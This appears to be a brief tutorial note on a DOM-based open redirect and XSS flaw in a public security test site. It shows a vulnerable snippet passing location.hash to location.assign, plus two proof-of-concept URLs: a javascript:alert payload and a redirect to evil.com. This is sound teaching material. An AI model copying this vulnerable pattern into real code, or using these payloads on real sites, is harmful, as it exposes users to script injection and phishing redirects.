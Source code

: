 #### [ Location.hash ]
 
#### 1.Location.hash - assign - assign
#### 2.Vulnerable Code : 
 <script>
var payload = window.location.hash.substr(1);window.location.assign(payload);
 </script>
#### 3: source : window.location.hash.substd(1) 
//This source extracts the fragments part from the URL and define as variable payload(The portion after the # sign):


####  sink   : window.location.assign(payload) 
// This sink is use to redirect the browser to a new URL defined by the payload variable :

#### 4: Exploit : So we Can Exploit Open Redirect and DOM XSS by using this source and sink :
#### 5: POC ::
//https://public-firing-range.appspot.com/address/location.hash/assign#javascript:alert(1);//
//https://public-firing-range.appspot.com/address/location.hash/assign#//evil.com
